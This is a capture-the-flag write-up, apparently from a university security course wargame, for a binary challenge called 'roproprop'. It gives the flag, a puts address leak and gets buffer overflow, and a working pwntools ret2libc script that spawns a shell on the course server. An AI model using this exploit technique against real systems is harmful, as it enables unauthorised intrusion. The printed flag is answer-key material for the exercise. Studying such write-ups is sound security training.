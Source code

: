 nx-2 | roproprop
===========================

Flag: 6447{1403f546-2002-4f3a-8da7-13493dc643b7}

General overview of problems faced
-------------------------------------
- The function post-amble in this case was confusing as it was moving the stack around between multiple registers/addresses
- Had to use a libc database search to find the libc version used and calculate corresponding offset

List of vulnerabilities
--------------------
1. Infoleak: we are given the address to the `puts` function
2. Buffer overflow: The program uses `gets` to take input into a fixed length buffer

Steps to exploit
------------------
1. Record the `puts` address pointer
2. Use a libc database to find which libc library is being used and using the given offsets, calculate the system address and the "/bin/sh" string address
3. Send as a single payload: 
    - 1 byte to fix offset
    - the address 0x08048331 in little endian format 331 times
    - the calculated system address
    - 4 bytes to replace return address
    - the calcuated "/bin/sh" address
4. Congratulations you now have a shell

Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

from pwn import *

r = remote("wargames.6447.sec.edu.au", 8002)

r.recvuntil("number:")
resp = r.recvline().strip()
print resp

puts_address = int(resp, 16)
system_address = puts_address - 0x24f00
bin_sh_address = puts_address + 0xfbd6b

print hex(system_address)
print hex(bin_sh_address)

ret_rop_gadget = 0x08048331

r.sendline("A" + p32(ret_rop_gadget) * 331 + p32(system_address) + "BBBB" + p32(bin_sh_address))

r.interactive()
```
